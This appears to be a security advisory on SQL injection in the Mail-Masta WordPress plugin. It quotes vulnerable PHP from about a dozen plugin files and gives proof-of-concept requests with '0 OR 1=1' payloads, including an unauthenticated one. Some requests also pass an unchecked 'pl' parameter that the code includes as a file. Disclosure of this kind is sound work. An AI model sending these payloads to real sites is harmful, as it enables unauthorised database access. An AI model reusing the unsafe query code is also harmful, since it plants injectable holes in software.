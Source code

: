 Mail-Masta SQL Injection
=========================================
Page: ./wp-content/plugins/mail-masta/inc/lists/csvexport.php (Unauthenticated)

GET Parameter: list_id

    http://my_wp_app/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0+OR+1%3D1&pl=/var/www/html/wordpress/wp-load.php


csvexport.php:

    $list_id=$_GET['list_id'];
    global $wpdb;
    $mail_subscribers = $wpdb->prefix . "masta_subscribers";
    $masta_list = $wpdb->prefix . "masta_list";
    $check_sql = "SELECT * FROM $mail_subscribers WHERE list_id = $list_id";
    $check_list="SELECT * FROM $masta_list WHERE list_id= $list_id";
    $wp_list=$wpdb->get_results($check_sql);
    $wp_list_s=$wpdb->get_results($check_list);



=========================================

Page: ./wp-content/plugins/mail-masta/inc/lists/view-list.php (Requires Wordpress admin)

GET Parameter: filter_list

    http://my_wp_app/wp-admin/admin.php?page=masta-lists&action=view_list&filter_list=0+OR+1%3D1


view-list.php:

    global $wpdb;
    $list_id = $_GET['filter_list'];
    $masta_list = $wpdb->prefix . "masta_list";
    $masta_subscribers = $wpdb->prefix . "masta_subscribers";
    $listdata = $wpdb->get_results( $wpdb->prepare("SELECT * FROM $masta_list WHERE list_id= $list_id",$query));
    $list_subscribers = $wpdb->get_var( $wpdb->prepare("SELECT COUNT( `list_id` ) FROM $masta_subscribers WHERE list_id= $list_id AND status=1",$query));

=========================================

Page: ./wp-content/plugins/mail-masta/inc/campaign/count_of_send.php (Requires Wordpress admin)

POST Parameter: camp_id

    http://my_wp_app/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=/var/www/html/wordpress/wp-load.php


count_of_send.php:

    include($_GET['pl']);
    global $wpdb;
    $camp_id=$_POST['camp_id'];
    $masta_reports = $wpdb->prefix . "masta_reports";
    $count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");


=========================================


Page: ./wp-content/plugins/mail-masta/inc/campaign_save.php (Requires Wordpress admin)

POST Parameter: list_id

campaign_save.php:

    $list_id=$_POST['list_id'];
    $check_list = $wpdb->get_var("SELECT count(id) FROM wp_masta_subscribers where list_id=$list_id");


POST /wp-admin/admin-ajax.php?id= HTTP/1.1

...snip...

action=my_action&url=%2Fvar%2Fwww%2Fhtml%2Fwp-content%2Fplugins%2Fmail-masta%2Finc%2Fcampaign_save.php&sender_selected_list_check=check&list_id=1+OR+1%3D1

=========================================
Page: ./wp-content/plugins/mail-masta/inc/campaign/view-campaign-list.php (Requires Wordpress admin)

	GET Parameter: id

	====  Vulnerable Code  ====
	Line 109: 	$campaigndata = $wpdb->get_results( "SELECT * FROM $masta_campaign WHERE camp_id = $camp_id");
	Line 111: 	$totals = $wpdb->get_results( "SELECT count(*) ts FROM $masta_report WHERE camp_id = $camp_id and status=1");
	Line 113: 	$totalm = $wpdb->get_results( "SELECT count(*) tm FROM $masta_report WHERE camp_id = $camp_id");


Page: ./wp-content/plugins/mail-masta/inc/campaign/view-campaign.php (Requires Wordpress admin)

	GET Parameter: id

	====  Vulnerable Code  ====
	Line 39: 	$campaigndata = $wpdb->get_results( "SELECT * FROM $masta_campaign WHERE camp_id = $camp_id");


Page: ./wp-content/plugins/mail-masta/inc/lists/add_member.php (Requires Wordpress admin)

	GET Parameter: filter_list	

	====  Vulnerable Code  ====
	Line 16: 	$list_form_data = $wpdb->get_results( "SELECT * FROM $masta_list WHERE list_id = $list_id ");


Page: ./wp-content/plugins/mail-masta/inc/lists/edit-list.php (Requires Wordpress admin)

	GET Parameter: id	

	====  Vulnerable Code  ====
	Line 21: 	$list_ans= $wpdb->get_results("select * from $mail_list where list_id=$list_id");


Page: ./wp-content/plugins/mail-masta/inc/lists/edit_member.php (Requires Wordpress admin)

	GET Parameters: filter_list, member_id

	====  Vulnerable Code  ====
	Line 81: 	$list_form_data = $wpdb->get_results( "SELECT * FROM $masta_list WHERE list_id = $list_id ");
	Line 89: 	$list_subs = $wpdb->get_results( "SELECT * FROM $masta_subs WHERE list_id = $list_id and id = $member_id");


Page: ./wp-content/plugins/mail-masta/inc/campaign/campaign-delete.php 

	====  Vulnerable Code  ====
	(D:\mail-masta\inc\mail-campaign-data.php)
	Line 1303: 	$camp_id = $_GET["id"];
	Line 4: 	$result = $wpdb->query($wpdb->prepare("DELETE FROM $masta_campaign WHERE camp_id = $camp_id limit 1"));


Page: ./wp-content/plugins/mail-masta/inc/subscriber_list.php 

	POST Parameter: list_id, subscriber_email

	====  Vulnerable Code  ====
	Line 25: 	$check_sql = "SELECT * FROM $mail_subscribers WHERE list_id = $list_id and email = '$email'";
	Line 27: 	$check_available = $wpdb->get_results($check_sql);
	Line 57: 	$list_form_data = $wpdb->get_results("SELECT * FROM $masta_list WHERE list_id = $list_id ");



